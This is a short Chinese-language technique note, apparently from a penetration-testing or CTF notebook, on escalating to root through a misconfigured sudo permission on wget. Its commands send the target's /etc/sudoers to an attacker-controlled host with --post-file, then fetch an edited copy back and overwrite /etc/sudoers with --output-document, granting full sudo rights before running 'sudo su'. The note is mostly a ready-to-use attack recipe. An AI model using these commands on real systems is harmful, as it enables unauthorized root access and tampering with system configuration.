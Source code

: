 # 特别地，有时在目标机上使用GTFOBins搜到的方法失效，这里记录一下wget的特殊提权方法

 

## 原理：

　　wget有两个选项：

　　--post-flie可以传送文件

　　--output-document可以将下载的文件另存为（即可以覆盖原文件）

 

## 方法：

### 1.先将目标机上etc文件夹下的sudoers上传到本地机上

```
sudo wget --post-file=etc/sudoers {my_ip}
my_ip为本地机ip
```
 

### 2.然后在本地机上修改修改sudoers文件，找到目标机用户名所在位置，把ROOT或NONE全修改为ALL。

```
例子：
jhinjax ALL=(ALL:ALL) ALL
```
 

 

### 3.修改完后在目标机上用wget获取本地机上的sudoers文件，通过--output可以直接覆盖目标机上原来的sudoers文件，即达到强行修改用户权限的方法。

```
sudo wget {my_ip:myports/../../sudoers} --output-document=/etc/sudoers
myports为本地机上开放的端口
```
 

### 最后

```
sudo su
```
即可为目标机上的root
